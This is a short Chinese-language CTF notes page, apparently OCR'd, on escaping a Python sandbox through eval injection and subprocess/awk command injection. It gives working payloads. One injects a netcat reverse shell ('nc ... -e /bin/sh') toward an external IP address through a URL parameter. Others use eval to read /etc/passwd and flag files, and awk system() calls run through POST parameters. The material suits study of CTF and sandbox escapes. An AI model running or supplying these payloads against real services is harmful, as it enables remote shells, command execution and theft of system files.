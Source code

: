 ## **python沙箱逃逸执行危险函数**
<https://blog.csdn.net/Jayjay___/article/details/132436072>


## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。



## **eval()函数利用**
python报错后显示了代码：eval(a + operator + b)
```
拼接传参b
/_calculate?number1=1&operator=-&number2=1,__import__ ('os').system('nc 120.46.41.173 9023 -e /bin/sh')
```

```
eval(__import__('os').popen('cat /etc/passwd').read());
eval(__import__('os').popen('cat /f*').read());
```


^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

